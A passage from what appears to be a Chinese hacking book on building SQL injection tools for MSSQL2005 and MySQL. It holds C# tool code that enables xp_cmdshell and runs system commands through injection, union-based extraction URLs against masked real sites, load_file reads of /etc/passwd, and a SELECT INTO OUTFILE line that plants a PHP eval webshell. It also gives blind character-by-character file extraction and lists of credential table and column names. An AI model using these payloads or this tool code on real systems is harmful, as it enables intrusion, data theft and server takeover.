                // 构造查询url把my_disField字段后的字段都填充null
                for (int i = my_disField + 1; i < my_fieldNum; i++)
                {
                    myQueryUrl = myQueryUrl + "null,";
                }

                myQueryUrl = myQueryUrl + "null--";
                string my_version = getUnionContent(myQueryUrl);
                itemTmp.SubItems[1].Text = my_version.Replace("&nbsp;", " ");
                break;

            case "user":
                break;
            case "db_name":
                break;
            case "databases":
                break;
        }
    }
    MessageBox.Show("基本信息获取完毕");
}
```

（详细代码参见光盘实例6完整程序）

双击“获取信息”按钮，编辑 `toolStripButton_getInfo_Click()` 函数代码，实现异步调用 `getInformation()` 函数的功能，具体代码如下：

```csharp
private void toolStripButton_getInfo_Click(object sender, EventArgs e)
{
    DelegateToGuessInformation delHTStartGuess = new DelegateToGuessInformation(getInformation); // getInformation()不能带参数
    AsyncCallback callBackWhenDone = new AsyncCallback(EndGetInformation); // EndGetInformation()异步调用返回后自动执行的代码
    delHTStartGuess.BeginInvoke(callBackWhenDone, null);
}
```

最后按 `Ctrl+F5` 编译运行。在注入点处输入需要检测的 URL，填好注入类型。在字段数里面填好匹配的 `union` 字段 14，在显示位置里填好显示信息的字段位置 5，然后在下面的列表框中选中需要猜解的基本信息，单击获取信息按钮，返回结果如图57所示。


图57 获取到的系统信息

##### 3.2.2 执行命令

这里我们仅仅以 `xp_cmdshell` 执行命令为例，来介绍 MSSQL2005 下 `union` 查询如何执行命令并得到返回结果。

我们先实现一个开启 `xp_cmdshell` 存储过程的代码，和错误提示下代码是完全一样的。双击“开启xp_cmdshell”按钮，编辑函数 `button_openXpcmdshell_Click` 代码，具体代码如下：

```csharp
private void button_restoreXpcmdshell_Click(object sender, EventArgs e)
{
    string injection_Type = comboBox_type.Text.Trim();
    string my_checkUrl = comboBox_url.Text.Trim();
    string myQueryUrl = "";
    switch (injection_Type) // 根据不同的注入类型构造不同的url
    {
        case "数字型":
            break;
        case "字符型":
            my_checkUrl = my_checkUrl + "'";
            break;
        case "搜索型":
            my_checkUrl = my_checkUrl + "%25'";
            break;
    }

    myQueryUrl = my_checkUrl + " ; exec master..sp_addextendedproc 'xp_cmdshell','xplog70.dll' --";
    getUrl(myQueryUrl);
}
```

过程如下：首先开启 `xp_cmdshell`，创建一个数据表，保存执行命令的回显结果，把返回的结果插入到创建的表中，利用 `union` 查询出表中执行命令返回结果的内容。

我们看下 `xp_cmdshell` 执行命令的代码，具体代码如下：

```csharp
// xp_cmdshell 执行命令的功能模块
private void execCommand()
{
    string injection_Type = comboBox_type.Text.Trim();
    string my_checkUrl = comboBox_url.Text.Trim();
    int my_fieldNum = Int32.Parse(textBox_fieldNum.Text.Trim());
    int my_disField = Int32.Parse(textBox_disField.Text.Trim());
    string my_execType = comboBox_execType.Text.Trim(); // 选择执行命令的方法
    string myQueryUrl = "";
    richTextBox_cmdResult.Text = "";
    switch (injection_Type) // 根据不同的注入类型构造不同的 url
    {
        case "数字型":
            break;
        case "字符型":
            my_checkUrl = my_checkUrl + "'";
            break;
        case "搜索型":
            my_checkUrl = my_checkUrl + "%25'";
            break;
    }

    switch (my_execType)
    {
        case "xp_cmdshell":
            // 通过 getUrl 提交构造的 url；这里的 url 是创建一个数据表 poopoopoo，把 xp_cmdshell 执行命令的结果插入到数据表 poopoopoo 中，然后对表中的内容进行排序。
            getUrl(my_checkUrl + " ;drop table [poopoopoo];create table [poopoopoo]([resulttxt] nvarchar(4000) null);insert into [poopoopoo](resulttxt) exec master..xp_cmdshell '" + comboBox_command.Text.Trim() + "';alter table [poopoopoo] add id int not null identity '(1,1)'--");
            myQueryUrl = my_checkUrl;
            for (int i = 1; i < my_disField; i++)
            {
                myQueryUrl = myQueryUrl + "null,";
            }
            myQueryUrl = myQueryUrl + "char(94)%2Bchar(94)%2Bchar(94)%2Bcast(count(*) as nvarchar(100))%2Bchar(94)%2Bchar(94)%2Bchar(94)%2Bchar(94),";
            for (int i = my_disField + 1; i < my_fieldNum; i++)
            {
                myQueryUrl = myQueryUrl + "null,";
            }
            myQueryUrl = myQueryUrl + "null from [poopoopoo] where resulttxt is not null--";
            break;
    }
}
```

```csharp
string resultNum = getUnionContent(myQueryUrl);
for (int i = 1; i <= Int32.Parse(resultNum); i++)
{
    myQueryUrl = my_checkUrl;
    for (int ii = 1; ii < my_disField; ii++)
    {
        myQueryUrl = myQueryUrl + "null,";
    }
    myQueryUrl = myQueryUrl + "(select top 1 char(94)%2Bchar(94)%2Bchar(94)%2Bresulttxt%2Bchar(94)%2Bchar(94)%2Bchar(94)%2Bchar(94)%2Bchar(94) from (select top " + i + " id,resulttxt from [poopoofoo] where resulttxt is not null order by 1) t order by 1 desc),";
    for (int iii = my_disField + 1; iii < my_fieldNum; iii++)
    {
        myQueryUrl = myQueryUrl + "null,";
    }
    myQueryUrl = myQueryUrl + "null--";
    string resulttxt = getUnionContent(myQueryUrl);
    richTextBox_cmdResult.Text = richTextBox_cmdResult.Text + resulttxt + "\r\n";
}
MessageBox.Show("执行完毕");
break;
case "sp_oacreate":
    break;
case "sp_add_job":
    MessageBox.Show("执行完毕");
    break;
case "sandboxmode":
    MessageBox.Show("执行完毕");
    break;
```

双击执行命令按钮，编辑 button_run_Click() 函数代码，实现异步调用 execCommand() 函数的功能，具体代码如下：

```csharp
private void button_run_Click(object sender, EventArgs e)
{
    DelegateToExecCommand delHTStartGuess = new DelegateToExecCommand(execCommand);
    AsyncCallback callBackWhenDone = new AsyncCallback(EndexecCommand);
    delHTStartGuess.BeginInvoke(callBackWhenDone, null);
}
```

（详细代码参见光盘实例7源程序）

其他执行命令的方法 sp_oacreate、SandBoxMode 等和错误提示下是一样的，大家可以参照错误提示开启下的代码，结合 union 查询 xp_cmdshell 执行的代码，完成其他三种方法的代码。

目前网络上公布的 MSSQL2005 的注入工具功能都比较单一，大家好好完善自己的工具代码，发布一个功能强大的 MSSQL2005 注入工具出来，你就是下一个啊D、NBSI！

## 第八章 编写MYSQL注入工具

nohack.me


## 第八章 编写MYSQL注入工具

### MYSQL注入的基本流程

MYSQL 是免费的，声称为“世界上最受欢迎的开源数据库”，可运行在多种平台上，很容易配置，即使在很重的负荷下也能运行良好。不支持独立调用的查询批处理执行一串 SQL 语句，也就是说我们在 MYSQL 注入过程中，是不能利用注入点执行多语句的。

PHP 语言和 MYSQL 数据库这两种开源技术已经成为目前开发数据库驱动的 Web 应用的最佳组合。PHP 是结合 MYSQL 使用的最常用的 Web 应用程序脚本。本章中的注入我们都以 PHP 环境为例，其他脚本语言在注入攻击方面几乎和 PHP 是等效的。

PHP 脚本的独特之处在于，当我们把 PHP 配置文件中的选项 magic_quotes_gpc 设置为 on 时，用户提交变量中的所有 `'`（单引号）、`"`（双引号）、`\`（反斜线）、NULL 字符都会进行自动转义，即 `'` 变成 `\'`，`"` 变成 `\"`。其中的“gpc”代表 GET/POST/COOKIE 三种提交方式。很多时候就是这一点，我们对 MYSQL 字符串型的注入就无能为力了。

例如我们提交 `http://www1.xxx.cn/art/art1/shownews.php?id=301'`，返回结果如图1所示。


- MYSQL 注入攻击的基本流程：
1. 发现存在 SQL 注入漏洞的 Web 页面；
2. 判断后台数据库类型（MYSQL 数据库）；
3. 构造 SQL 查询语句确定 MYSQL 的版本（3.x/4.x/5.x）；
4. 利用一些特殊的函数语句等获取目标权限。

| 常见的利用对象 | 类型 |
|---|---|
| UNION | SELECT |
| LOAD_FILE | 函数 |
| LOAD DATA INFILE | 语句 |
| SELECT……INTO OUTFILE | 语句 |

### 2 MYSQL注入基础

#### 2.1 检测MYSQL注入

PHP+MYSQL 注入越来越受到关注，很多前辈都总结出了比较好的利用方法，同时也出现了一些比较好的工具。那我们接下来结合一个具体的实例，边理论边实践，讲述如何手动去利用 PHP 注入漏洞。

我们先找到一个目标地址，然后在后面添加一个单引号提交：`http://news.xxx.cn/info.php?id=656'`，返回结果如图2所示。


图2 错误提示

网站的物理路径和数据库类型暴露出来了，这为以后上传执行 WebShell、读取服务器上的文件提供了必要的前提条件。

我们提交 `http://news.xxx.cn/info.php?id=656 and 1=1` 出现正常页面，提交 `http://news.xxx.cn/info.php?id=656 and 1=2` 显示“该资讯信息不存在”，说明存在 PHP 注入漏洞，如图3所示。


图3 检测发现存在注入漏洞

#### 2.2 识别MYSQL的版本

目前大部分 Web 采用的 MYSQL 版本多为 MYSQL4.x 和 MYSQL5.x，也有少量是 MYSQL3.x。不同的版本利用方法是不同的，首先我们需要判断 MYSQL 的版本。

- 用到的语句：
- `ord()` 函数返回字符的 ASCII 值，例如 `ord('3')=51`，51 是 3 的 ASCII 码值。
- `mid(str,pos,len)` 返回字符串 str 的从 pos 位置起 len 个字符，例如 `mid('pois0n',3,3)=is0`，`mid('pois0n',2,1)=o`。
- `version()` 是 MYSQL 内置函数，作用是返回当前数据库版本信息。

如果我们在一个注入点后面加上 `and ord(mid(version(),1,1))>51/*`，“/*”是注释符，可以把后面的东西注释忽略掉。如果返回正常，说明 MYSQL 的版本是大于 3.x 的。

如果在后面加上 `and ord(mid(version(),1,1))>52/*` 返回正常，说明 MYSQL 的版本是大于 4.x 的。

对于大于 3.x 的 MYSQL 数据库（4.x、5.x）支持 union 查询，我们可以利用 union 查询进行下一步；如果数据库为 MYSQL3.x，是不支持 union 查询的，这时就只能通过“拆半查找”逐位猜解信息。

### 3 MYSQL注入功能分析

#### 3.1 MYSQL4.x 注入

##### 3.1.1 获取数据库基本信息

MYSQL 有很多的内置函数，经常使用 DATABASE()、USER()、SYSTEM_USER()、SESSION_USER()、CURRENT_USER()、VERSION() 这些函数来获取一些系统的信息。

| 变量名 | 描述 |
|---|---|
| VERSION() | 返回当前的数据库版本信息 |
| USER() | 返回当前数据库用户名 |
| DATABASE() | 返回当前数据库名 |
| PASSWORD() | 获取相关用户的密码 |

在 MYSQL4.X 以上的版本中（包括4.X），MYSQL 支持 union 查询。在注入中 union 查询是很方便的，我们可以使用 union 查询直接从网页上读取需要的信息。前面我们介绍过 union 查询的限制条件，这里复习一下：

- 所有查询中的列数和列的顺序必须相同。
- 数据类型必须兼容。

首先确定 union 查询匹配的字段数，提交 `http://zcni.xxx.cn/info.php?id=295 order by 10/*`，返回正确页面，说明字段数大于等于 10。


提交 `http://zcni.xxx.cn/info.php?id=295 order by 15/*`，返回错误页面，说明字段数小于等于 15。


提交 `http://zcni.xxx.cn/info.php?id=295 order by 12/*` 返回错误页面，提交 `http://zcni.xxx.cn/info.php?id=295 order by 11/*` 返回正确页面，说明字段数大于等于 11 并且小于 12，可以确定字段数为 11。

然后利用 union 查询返回信息的显示字段，提交 `http://zcni.xxx.cn/info.php?id=295 and 1=2 union select 1,2,3,4,5,6,7,8,9,10,11/*`，返回结果如图6所示。


我们把 union 后面的 6 换成 MYSQL 的内置函数 user()，提交 `http://zcni.xxx.cn/info.php?id=295 and 1=2 union select 1,2,3,4,5,user(),7,8,9,10,11/*`，返回结果如图7所示。


猜解数据库版本信息，提交：

```sql
/zcni.xxx.cn/info.php?id=295 and 1=2 union select 1,2,3,4,5,version(),7,8,9,10,11/*
```

返回结果如图8所示。获取当前数据库名，提交：

```sql
/zcni.xxx.cn/info.php?id=295 and 1=2 union select 1,2,3,4,5,database(),7,8,9,10,11/*
```

返回结果如图9所示。


##### 3.1.2 load_file()读取系统文件

Load_file()，顾名思义就是加载文件，不是运行，也就是显示文件的内容，可以利用它读取计算机中的文件。但是使用时有条件限制：

- 知道文件正确的路径。
- 有权限读取文件。
- 欲读取文件必须小于 max_allowed_packet。

如果该文件不存在，或因为上面的三种原因的某一个，函数返回空。我们如何去检测一个注入点是否有读取文件的权限呢？这里给大家一个简单的方法，在注入点后加上 `and (select count(*) from MYSQL.user)>0/*`，如果结果返回正常，那么可以认为有读文件权限，可用这个函数去读取敏感文件，如配置文件、数据库连接文件等。

很多时候 gpc 转义了单引号，这时我们只能把 load_file() 的参数物理路径转换为 16 进制的形式才能成功读取文件。例如读取“/etc/passwd”文件（/etc/passwd 是 LINUX 系统中一个存放账号信息的重要文件）时需转换为 16 进制形式，用 `load_file(0x2F6574632F706173737764)` 就可以了。

下面看一个读取文件的例子。我们发现 `http://www.xxx.org.cn/cenr/view.php?id=3` 存在数字型注入漏洞，数据库为 MYSQL 数据库，并且满足 union 查询条件，提交：`http://www.xxx.org.cn/cenr/view.php?id=3 and 1=2 union select 1,2,3,4,version()/*`，返回结果如图10所示。


我们测试注入点时候有读取文件的权限，提交 `http://www.xxx.org.cn/cenr/view.php?id=3 and 1=2 union select 1,2,3,4,count(*) from MYSQL.user/*`，返回结果图11所示，得到结果是 60，大于 0 的，即 `and (select count(*) from MYSQL.user)>0/*` 肯定会返回正常页面。


读取 /etc/passwd 文件，提交 `http://www.xxx.org.cn/cenr/view.php?id=3 and 1=2 union select 1,2,3,4,load_file(0x2F6574632F706173737764)/*`，返回结果如图12所示。

有时候，拥有读文件的权限却读不出来文件，可能是对方的系统在权限配置上做得好，无法读取其他用户的文件，我们经常需要读取的文件一般为：


## Windows 系统下：

- `c:\windows\my.ini`（可能包含 MYSQL 的 root 密码）
- `c:\Program Files\RhinoSoft.com\Serv-U\ServUDaemon.ini`（Serv-U FTP 服务器配置）
- `x:\Tomcat5\conf\tomcat-users.xml`（Tomcat 管理用户配置文件）

## LINUX 系统下：

- `/etc/httpd/conf/httpd.conf`（Apache 配置文件，常用于查找 Web 路径）
- `/etc/passwd`（LINUX 系统中一个存放账号信息的重要文件）
- `/etc/my.cnf`（MYSQL 的配置文件）

##### 3.1.3 SELECT INTO OUTFILE写文件

在 MYSQL 注入的时候，我们可以利用 SELECT INTO OUTFILE 直接向系统中写入文件直接获取 WebShell，但 SELECT INTO OUTFILE 的限制条件比 load_file() 更严格：

- 知道 Web 的物理路径（可以通过数据库错误信息来爆出来，或者通过 load_file() 读取配置文件找出）。
- 支持使用 union（MYSQL3.x 以上的版本），匹配好字段数。
- 没有对单引号进行过滤或转义（outfile 后面的 `''` 不可以用其他内容代替，也不可以用16进制转换）。
- MYSQL 当前用户拥有写文件的权限。
- 对 Web 目录有写权限。

写文件的代码为：

```sql
url + "and 1=2 union select 1,2,3,4,'<?php eval($_POST[cmd]);?>' into outfile '/xxx/pois0n.php'/*"
```

其中“`<?php eval($_POST[cmd]);?>`”为要写入文件的内容，“`/xxx/pois0n.php`”为要写入的文件物理路径。

##### 3.1.4 猜解数据

###### 猜解表名

如果以上方法都不可行，那就只能老老实实猜解管理员的用户密码了。针对 MYSQL4.x 数据库的注入漏洞，不像 MSSQL 数据库可以通过系统表直接列出数据表，只能根据数据表字典一个一个去猜解。

用到的语句：

`count()` 返回记录条数。

在注入点 URL 后添加 `and (select count(*) from table_name)>0` 这句代码，如果返回正常，说明当前猜解的数据表 `table_name` 是存在的，否则不存在。例如 `http://news2.xxx.cn/newsdetail.php?newsid=1467` 存在注入漏洞，数据库为 MYSQL4.x，我们猜解数据表提交：`http://news2.xxx.cn/newsdetail.php?newsid=1467 and (select count(*) from admin)>0`，返回错误页面，说明不存在 `admin` 表。


提交 `http://news2.xxx.cn/newsdetail.php?newsid=1467 and (select count(*) from user)>0`，返回正确页面，说明存在 `user` 表，如图14所示。


常见的数据表有 `admin`、`a_admin`、`x_admin`、`m_admin`、`adminuser`、`admin_user`、`article_admin`、`administrator`、`manage`、`manager`、`member`、`memberlist`、`user`、`users`、`Manage_User`、`user_info`、`admin_userinfo`、`userlist`、`user_list`、`login`、`用户`、`news`、`password`、`userinfo` 等。

###### 猜解列名

在注入点后添加 `and (select count(column_name) from table_name)>0`，如果返回正常，说明 `table_name` 中存在 `column_name` 字段，否则不存在。例如已经猜解出存在 `user` 表，提交：`http://news2.xxx.cn/newsdetail.php?newsid=1467 and (select count(username) from user)>0`，返回正确页面，说明 `user` 表存在 `username` 列，如图15所示。


提交 `http://news2.xxx.cn/newsdetail.php?newsid=1467 and (select count(password) from user)>0`，返回错误页面，说明 `user` 表中不存在 `password` 列，如图16所示。


常见的列名有 `username`、`adminusername`、`admin_username`、`adminname`、`admin_name`、`admin`、`adminuser`、`admin_user`、`usrname`、`usr_name`、`user_name`、`user_admin`、`password`、`admin_password`、`administrator`、`administrators`、`adminpassword`、`adminpwd`、`admin_pwd`、`adminpass`、`admin_pass`、`usrpass`、`usr_pass`、`user`、`name`、`pass`、`userpass`、`user_pass`、`userpassword`、`user_password`、`pwd`、`userpwd`、`user_pwd`、`useradmin`、`pword`、`p_word`、`passwd`、`pass_wd`、`yonghu`、`用户`、`用户名`、`密码`、`帐号`、`id`、`uid`、`userid`、`user_id`、`adminid`、`admin_id` 等。

###### 猜解记录内容

在注入点后添加 `and 1=2 union select 1,2,3,4,(select column_name from (select ...`- `from (select * from table_name where 1=1 order by 1 limit N,1) t order by 1 desc) t limit 1)/*`，变换 `limit N,1` 中的 N 就可以遍历所有字段的值了。`table_name` 是我们要猜解的数据表名，`column_name` 是要猜解的字段名。其中 LIMIT 关键字在 MYSQL 中用于限制 SELECT 语句返回指定的记录数，跟 MSSQL 中的 TOP 类似。LIMIT 后面跟一个或两个数字参数，参数必须是一个整数常量。如果给定两个参数，第一个参数指定第一个返回记录行的偏移量，第二个参数指定返回记录行的最大数目。如 `SELECT * FROM table LIMIT 5,10`，查询记录行 6–15；`SELECT * FROM table LIMIT 5`，查询前 5 个记录行。换句话说，`LIMIT n` 等价于 `LIMIT 0,n`。

在 MYSQL4.x 中可以通过 union 查询直接查询出数据表中的字段值。例如上面得到了 `http://news2.xxx.cn/newsdetail.php?newsid=1467` 注入点存在 user 数据表，表中存在 username 字段，我们提交 `http://news2.xxx.cn/newsdetail.php?newsid=1467 and 1=2 union select 1,2,3,(select username from (select * from (select * from user where 1=1 or ...`


图 17 得到第一个 username 字段的值

… `),5,6,7,8,9,10/*`，得到第一个 username 字段的值“全校”，如图 17 所示。提交 `http://news2.xxx.cn/newsdetail.php?newsid=1467 and 1=2 union select 1,2,3,(select username from (select * from (select * from user where 1=1 order by 1 limit 1,1) t order by 1 desc) t limit 1),5,6,7,8,9,10/*` …


图 18 得到第二个 username 字段的值

… 得到第二个 username 字段的值“办公室”，如图 18 所示。

## 3.2 MYSQL5.x 注入

MYSQL5.x 增加很多新的功能，开始支持存储过程、触发器、视图、信息架构视图等新特性。可以说这些都是发展的必然，但是新的东西出来必定也会带来新的安全问题。正如从 MYSQL3.x 升级到 MYSQL4.x，开始支持 union 查询、子查询，这直接导致 MYSQL 注射更容易、更广泛。前面介绍的 MYSQL4.x 的注入方法在 MYSQL5.x 下完全适用。

##### 3.2.1 information_schema 数据字典

MYSQL5 提供了一个系统数据库：information_schema，其中保存着关于 MYSQL 服务器所维护的所有其他数据库的信息。information_schema 中包含的表有 CHARACTER_SETS、COLLATIONS、COLLATION_CHARACTER_SET_APPLICABILITY、COLUMNS、COLUMN_PRIVILEGES、KEY_COLUMN_USAGE、OUTLINES、SCHEMATA、SCHEMA_PRIVILEGES、STATISTICS、TABLES、TABLE_CONSTRAINTS、TABLE_PRIVILEGES、TRIGGERS、USER_PRIVILEGES、VIEWS。

information_schema 和注入相关的几个表：

- **SCHEMATA** 数据表提供了关于数据库的信息，存储数据库名。  
  关键列：`SCHEMA_NAME` 表示数据库名称的列。
- **TABLES** 数据表存储表名。  
  关键列：`TABLE_SCHEMA` 表示该表所属的数据库名。  
  关键列：`TABLE_NAME` 表示表名。
- **COLUMNS** 数据表存储字段名。  
  关键字段：`TABLE_SCHEMA` 表示表所属的数据库名。  
  关键字段：`TABLE_NAME` 表示所属的表名。  
  关键字段：`COLUMN_NAME` 表示字段名。

利用 MYSQL5.x 的数据字典 information_schema，我们只要通过注入点构造查询语句，查询 information_schema 中相关数据表的内容，就可以得到我们想要的信息。

##### 3.2.2 猜解可用数据库

在 information_schema 的 SCHEMATA 数据表中存储了关于数据库的信息，SCHEMATA 数据表的 SCHEMA_NAME 列是数据库名称字段，每一条记录代表一个数据库的名字。我们通过遍历 SCHEMA_NAME 字段的值就可以得到所有可用数据库。

```sql
select count(*) from information_schema.SCHEMATA;

select SCHEMA_NAME from information_schema.SCHEMATA limit N-1,1;
```

例如我们提交：`http://www.xxx.cn/News_detail.php?NewsID=279 and 1=2 union select 1,2,count(*),4,5,6,7 from information_schema.SCHEMATA/*`，猜解可用数据库个数，返回 10 个，如图 19 所示。


提交：`http://www.xxx.cn/News_detail.php?NewsID=279 and 1=2 union select 1,2,SCHEMA_NAME,4,5,6,7 from information_schema.SCHEMATA LIMIT 0,1/*`，猜解第一个数据库名，返回“information_schema”，如图 20 所示。


```sql
1=2 union select 1,2,SCHEMA_NAME,4,5,6,7 from information_schema.SCHEMATA LIMIT 1,1/*
```


图 21 猜解第二个数据库名

猜解第二个数据库名，返回“intranet”，如图 21 所示，不断递增 limit 后面的第一个参数就可以查询到所有的数据库名。

##### 3.2.3 猜解数据表

在 information_schema 的 TABLES 数据表中存储了关于数据表的信息，TABLES 数据表中的 TABLE_NAME 字段表示表的名称，TABLE_SCHEMA 字段表示 TABLE_NAME 字段的值所属的数据库名称。我们通过遍历 TABLE_NAME 字段的值就可以得到指定数据库的所有数据表了。

```sql
select count(*) from information_schema.TABLES where TABLE_SCHEMA='xiem';
select count(*) from information_schema.TABLES where TABLE_SCHEMA=0x7869656D;
```

```sql
select TABLE_NAME from information_schema.TABLES where TABLE_SCHEMA=0x7869656D limit N,1;
```

```sql
http://www.xxx.cn/News_detail.php?NewsID=279 and 1=2 union select 1,2,count(*),4,5,6,7 from information_schema.TABLES where TABLE_SCHEMA=0x7869656D/*
```


图 22 猜解 xiem 数据库中的数据表个数

```sql
http://www.xxx.cn/News_detail.php?NewsID=279 and 1=2 union select 1,2,TABLE_NAME,4,5,6,7 from information_schema.TABLES where TABLE_SCHEMA=0x7869656D LIMIT 0,1/*
```


图 23 猜解 xiem 数据库中第一个数据表

```sql
http://www.xxx.cn/News_detail.php?NewsID=279 and 1=2 union select 1,2,TABLE_NAME,4,5,6,7 from information_schema.TABLES where TABLE_SCHEMA=0x7869656D LIMIT 1,1/*
```


图 24 猜解 xiem 数据库中第二个数据表

提交 `http://www.xxx.cn/News_detail.php?NewsID=279 and 1=2 union select 1,2,TABLE_NAME,4,5,6,7 from information_schema.TABLES where TABLE_SCHEMA=0x7869656D LIMIT 1,1/*`，猜解 xiem 数据库中第二个数据表，如图 24 所示。

##### 3.2.4 猜解列名

在 information_schema 的 COLUMNS 数据表中存储了字段信息，COLUMNS 数据表中的 COLUMN_NAME 字段表示列名，TABLE_NAME 字段表示列名属于哪个数据表，TABLE_SCHEMA 字段表示列名属于哪个数据库。我们通过遍历 COLUMN_NAME 字段的值就可以得到指定数据表的所有列名了。

```sql
select count(*) from information_schema.COLUMNS where TABLE_NAME=0x56697369746F7273
```

猜解 xiem 数据库中 Visitors 数据表中的列名的个数。这里我们为了规避单引号把 `Visitors` 转换成 16 进制形式 `0x56697369746F7273`。

```sql
select COLUMN_NAME from information_schema.COLUMNS where TABLE_NAME=0x56697369746F7273 limit N,1/*
```

上一步得到 N 个列，猜解第 N 个列名，可以通过不断递增 limit 的第一个参数 N 查询到所有的列名。

```sql
http://www.xxx.cn/News_detail.php?NewsID=279 and 1=2 union select 1,2,count(*),4,5,6,7 from information_schema.COLUMNS where TABLE_NAME=0x56697369746F7273/*
```

猜解字段个数，返回 4 个，如图 25 所示。


```sql
http://www.xxx.cn/News_detail.php?NewsID=279 and 1=2 union select 1,2,COLUMN_NAME,4,5,6,7 from information_schema.COLUMNS where TABLE_NAME=0x56697369746F7273 LIMIT 0,1/*
```

猜解第一个字段名，得到“ID”，如图 26 所示。


```sql
http://www.xxx.cn/News_detail.php?NewsID=279 and 1=2 union select 1,2,COLUMN_NAME,4,5,6,7 from information_schema.COLUMNS where TABLE_NAME=0x56697369746F7273 LIMIT 1,1/*
```

猜解第二个字段名，得到“IP”，如图 27 所示。


##### 3.2.5 猜解记录内容

concat(str1,str2,...) 把参数连成一个长字符串并返回，`concat('My','S','QL')` 返回 `MYSQL`。

例如我们提交 `http://www.xxx.cn/News_detail.php?NewsID=279 and 1=2 union select 1,2,concat(ID,char(124),IP),4,5,6,7 from xiem.Visitors LIMIT 0,1/*`，猜解第一条记录的 ID 和 IP 字段的内容，返回如图 28 所示。


图 28 猜解第一条记录的 ID 和 IP 字段的内容

MYSQL5 中新增的 information_schema 存储数据库系统信息，为我们注入过程中猜解数据库内容提供了一条捷径，是 MYSQL5 一个很重要的注入技巧。使用 information_schema 实现遍历猜解库名、表名以及字段名的技术，解决了一些以前使用工具无法猜解到的库名、表名以及字段名的问题，提高了注入的效率。

##### 3.2.6 group_concat() 函数

首先我们来了解一下 group_concat() 函数，该函数完整语法如下：

```sql
GROUP_CONCAT([DISTINCT] expr [,expr ...]
[ORDER BY {unsigned_integer | col_name | formula} [ASC | DESC] [,col ...]]
[SEPARATOR str_val])
```

函数返回一个字符串结果，该结果由分组中的值连接组合而成。那么这个函数有什么用处呢？我们用事实来说明。

我们提交 `http://www.xxx.cn/News_detail.php?NewsID=279 and 1=2 union select 1,2,group_concat(user(),0x3a,version(),0x3a,database()),4,5,6,7/*`，`0x3a` 是冒号，返回结果如图 29 所示。


图 29 一次返回多个信息

一下查询出三个信息，这就是 group_concat() 函数的好处，可以一次返回多个信息。

###### 爆全部数据库名

利用 group_concat() 这个函数可以爆出全部的数据库名，构造查询语句：`http://www.xxx.cn/News_detail.php?NewsID=279 and 1=2 union select 1,2,group_concat(SCHEMA_NAME),4,5,6,7 from information_schema.SCHEMATA /*`，返回结果如图 30 所示，得到了所有可用的数据库。


图 30 得到所有可用的数据库

###### 爆全部数据表

如果要爆出 xiem 数据库的全部数据表，构造查询语句：

```sql
union select 1,2,group_concat(TABLE_NAME),4,5,6,7 from information_schema.TABLES where TABLE_SCHEMA=0x7869656D /*
```

返回结果如图 31 所示，得到了所有数据表。


图 31 得到所有数据表

###### 爆全部字段名

如果想爆出 students 表的全部字段，首先将其进行 HEX 转换“0x73747564656E7473”。

```sql
http://www.xxx.cn/News_detail.php?NewsID=279 and 1=2 union select 1,2,group_concat(COLUMN_NAME),4,5,6,7 from information_schema.COLUMNS where TABLE_NAME=0x73747564656E7473 /*
```

返回结果如图 32 所示，得到了所有 students 数据表的字段。


图 32 得到 students 数据表的所有字段

###### 爆数据内容

有了表和字段等关键信息，我们就可以利用 group_concat() 这个函数爆出敏感数据信息。

```sql
http://www.xxx.cn/News_detail.php?NewsID=279 and 1=2 union select 1,2,group_concat(ID,0x3a,Name,0x3a,Introduction,0x3a,Address,0x3a,Tel,0x3a,Fax,0x3a,Email,0x3a,EnName),4,5,6,7 from xiem.students/*
```

返回结果如图 33 所示，得到了所有 students 数据表的内容。


图 33 得到 students 数据表的所有内容

将 MYSQL5 的 information_schema 与 group_concat() 函数综合运用，我们就可以实现意想不到的效果。

## 3.3 MYSQL3.x 注入

这里我们有必要介绍下 MYSQL3.x 的注入。网上流传的 MYSQL 经典注入文章一般都是针对 4.x 以上支持 union 查询的。为什么很少有人介绍 3.x 的注入呢？首先就是 MYSQL3.x 太古老了，现在很少有网站采用它作为后台数据库系统；其次就是 MYSQL3.x 能够利用的注入方法太少了，既没有 information_schema 数据字典，也不支持 union 查询，而且不可以跨库跨表查询。

对于 MYSQL3.x 的注入我们只有一点可以利用的，那就是 load_file() 函数，其作用是读入文件，并将文件内容作为一个字符串返回。限制条件跟 MYSQL4.x 是一样的。

我们具体看一下 MYSQL3.x 在不支持 union 查询的情况下是如何利用“折半查找”。

注：一个字符一个字符地去读取文件内容。

我们提交 `http://www.xxx.org.cn/newscontent.php?id=500 and ord(mid(version(),1,1))>51/*`，返回错误页面，如图34所示。

提交 `http://www.xxx.org.cn/newscontent.php?id=500 and ord(mid(version(),1,1))>50/*`，返回正确页面，如图35所示，说明这个注入点的 MYSQL 是 3.x 的。


读取 `/etc/passwd` 文件的内容。首先转换为16进制 `0x2F6574632F706173737764`，猜解 `/etc/passwd` 文件的长度。提交 `http://www.xxx.org.cn/newscontent.php?id=500 and length(load_file(0x2F6574632F706173737764)) between 0 and 1000/*`，返回错误页面，如图36所示，说明 `/etc/passwd` 文件长度不在 1 和 1000 之间。


增加范围继续提交 `http://www.xxx.org.cn/newscontent.php?id=500 and length(load_file(0x2F6574632F706173737764)) between 1000 and 2000/*`，返回正确页面，如图37所示，说明 `/etc/passwd` 文件长度在 1000 和 2000 之间。

不断调整范围，最后猜解出文件长度为 1954，如图38所示。


我们得到了文件长度后，首先猜解第一个字符的内容。我们提交 `http://www.xxx.org.cn/newscontent.php?id=500 and ascii(mid(load_file(0x2F6574632F706173737764),1,1)) between 0 and 130/*`，返回正确页面，如图39所示，说明第一位字符的 ASCII 码值在 0 和 130 之间。


缩小范围，提交 `http://www.xxx.org.cn/newscontent.php?id=500 and ascii(mid(load_file(0x2F6574632F706173737764),1,1)) between 80 and 130/*`，返回正确页面，如图40所示，说明第一位字符的 ASCII 码值在 80 和 130 之间。


不断调整范围，最后猜解出第一位字符的 ASCII 码值为 114，114 是字符 `r` 的 ASCII 码值，即 `/etc/passwd` 文件第一位字符为 `r`。我们遍历 `ascii(mid(load_file(0x2F6574632F706173737764),N,1))` 中的 `N`，就可以得到所有字符的内容了，这样就可以得到全部文件的内容。

## 4 MYSQL注入工具代码实现

### 4.1 MYSQL4.x 注入工具

实例1是已经设计好的程序，大家只需在这个基础上添加功能代码实现相应功能即可，最终界面如图41所示。


> 图41 控件布局

##### 4.1.1 判断数据库版本

MYSQL 不同的版本可利用的方法是不同的，首先我们需要判断 MYSQL 的版本。前面的章节中我们介绍过如何去判断 MYSQL 注入点的数据库类型。在我们检测出是 MYSQL 数据库后，还要继续判断 MYSQL 的版本信息。我们修改 `checkInjectionWithNoKeyword()` 函数和 `checkInjectionWithKeyword()` 函数，判断注入点中 MYSQL 版本的一段代码：

```csharp
